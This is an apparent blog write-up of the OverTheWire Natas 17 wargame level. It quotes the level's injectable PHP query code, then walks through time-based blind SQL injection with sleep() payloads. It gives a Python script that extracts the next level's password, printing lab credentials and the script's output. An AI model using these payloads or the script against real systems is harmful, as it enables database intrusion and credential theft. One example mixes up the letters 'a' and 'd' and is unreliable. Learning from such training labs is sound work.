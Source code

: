 ```yaml
---
layout: post
title: "OverTheWire: Natas 17"
date: 2016-12-14 12:00:00
share: true
comments: true
---
```


Continuing with last few challenges' theme, this one is another SQL injection puzzle. Piece of code that matters is the following:

```php
<?  
  
/*  
CREATE TABLE `users` (  
  `username` varchar(64) DEFAULT NULL,  
  `password` varchar(64) DEFAULT NULL  
);  
*/  
  
if(array_key_exists("username", $_REQUEST)) {  
    $link = mysql_connect('localhost', 'natas17', '<censored>');  
    mysql_select_db('natas17', $link);  
      
    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";  
    if(array_key_exists("debug", $_GET)) {  
        echo "Executing query: $query<br>";  
    }  
  
    $res = mysql_query($query, $link);  
    if($res) {  
    if(mysql_num_rows($res) > 0) {  
        //echo "This user exists.<br>";  
    } else {  
        //echo "This user doesn't exist.<br>";  
    }  
    } else {  
        //echo "Error in query.<br>";  
    }  
  
    mysql_close($link);  
} else {  
?>   
```

You'll notice a couple of thing:  

  * A table _users_ is created, with 2 fields `username` and `password`.
  * No output is shown for any input you pass.

What options do we have here? We won't be able to show error messages, use union based SQL injection since no output exists. How about [SLEEP()](https://www.pythian.com/blog/mysql-injection-sleep/)? We can force the SQL statement executed to reveal data by answering yes/no questions. 
Let's check first if we're able to use the sleep command and some examples to show how we can utilize it. You can use Fiddler as proxy for Windows or Burpsuite for Linux (or whatever tool that does the job) to observe duration.

  * **Input:** `natas18" and sleep(5) #` 
**Query:** 
```sqlSELECT
SELECT * from users where username="_natas18" and sleep(5) #
```
**Output: **Overall Elapsed:    0:00:05.384  
**Meaning**: User named natas18 exists and sleep(5) was executed.

  * **Input:** `idontexist" and sleep(5) #` 
    **Query:** 
```sql
    SELECT * from users where username="_idontexist" and sleep(5) #_  
```
    **Output:** Overall Elapsed:    0:00:00.372  
    **Meaning**: User named idontexist doesn't exists and sleep(5) was not executed.

  * **Input:**  natas18" and password like binary '%a%' and sleep(5) #`
    **Query:** `SELECT * from users where username="_natas18" and password like binary '%a%' and sleep(5) #`
    **Output:** Overall Elapsed:    0:00:00.359  
    **Meaning**: password for natas18 does not contain the letter 'a' and sleep(5) was not executed.

  * **Input:** `natas18" and password like binary '%d%' and sleep(5) #`
    **Query:** 
```sql
    SELECT * from users where username="_natas18" and password like binary '%a%' and sleep(5) #
```

    **Output: **Overall Elapsed:    0:00:00.359  
    **Meaning**: password for natas18 does contain the letter 'a' and sleep(5) was executed.

Noticed what happened? By asking the right question, you can tell it's a yes/no depending on the request duration!  
  
We'll be using a simple python script to automate the process for us, first by finding the set of characters that exist in password for user natas18 then reconstructing the password.  

```python
import requests  
from requests.auth import HTTPBasicAuth  
  
Auth=HTTPBasicAuth('natas17', '8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw')  
headers = {'content-type': 'application/x-www-form-urlencoded'}  
filteredchars = ''  
passwd = ''  
allchars = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890'  
  
for char in allchars:  
        payload = 'username=natas18%22+and+password+like+binary+%27%25{0}%25%27+and+sleep%281%29+%23'.format(char)  
        r = requests.post('http://natas17.natas.labs.overthewire.org/index.php', auth=Auth, data=payload, headers=headers)  
        if(r.elapsed.seconds >= 1):  
                filteredchars = filteredchars + char  
                print(filteredchars)  
  
print(filteredchars)  
  
for i in range(0,32):  
        for char in filteredchars:  
                payload = 'username=natas18%22%20and%20password%20like%20binary%20\'{0}%25\'%20and%20sleep(1)%23'.format(passwd + char)  
                r = requests.post('http://natas17.natas.labs.overthewire.org/index.php', auth=Auth, data=payload, headers=headers)  
                if(r.elapsed.seconds >= 1):  
                        passwd = passwd + char  
                        print(passwd)  
                        break  
```

Output:  

```    
d  
dg  
dgh  
dghj  
dghjl  
dghjlm  
dghjlmp  
dghjlmpq  
dghjlmpqs  
dghjlmpqsv  
dghjlmpqsvw  
dghjlmpqsvwx  
dghjlmpqsvwxy  
dghjlmpqsvwxyC  
dghjlmpqsvwxyCD  
dghjlmpqsvwxyCDF  
dghjlmpqsvwxyCDFI  
dghjlmpqsvwxyCDFIK  
dghjlmpqsvwxyCDFIKO  
dghjlmpqsvwxyCDFIKOP  
dghjlmpqsvwxyCDFIKOPR  
dghjlmpqsvwxyCDFIKOPR4  
dghjlmpqsvwxyCDFIKOPR47  
dghjlmpqsvwxyCDFIKOPR470  
dghjlmpqsvwxyCDFIKOPR470  
x  
xv  
xvK  
xvKI  
xvKIq  
xvKIqD  
xvKIqDj  
xvKIqDjy  
xvKIqDjy4  
xvKIqDjy4O  
xvKIqDjy4OP  
xvKIqDjy4OPv  
xvKIqDjy4OPv7  
xvKIqDjy4OPv7w  
xvKIqDjy4OPv7wC  
xvKIqDjy4OPv7wCR  
xvKIqDjy4OPv7wCRg  
xvKIqDjy4OPv7wCRgD  
xvKIqDjy4OPv7wCRgDl  
xvKIqDjy4OPv7wCRgDlm  
xvKIqDjy4OPv7wCRgDlmj  
xvKIqDjy4OPv7wCRgDlmj0  
xvKIqDjy4OPv7wCRgDlmj0p  
xvKIqDjy4OPv7wCRgDlmj0pF  
xvKIqDjy4OPv7wCRgDlmj0pFs  
xvKIqDjy4OPv7wCRgDlmj0pFsC  
xvKIqDjy4OPv7wCRgDlmj0pFsCs  
xvKIqDjy4OPv7wCRgDlmj0pFsCsD  
xvKIqDjy4OPv7wCRgDlmj0pFsCsDj  
xvKIqDjy4OPv7wCRgDlmj0pFsCsDjh  
xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhd  
xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP  
```    

  
Natas 18 password is `xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP`.
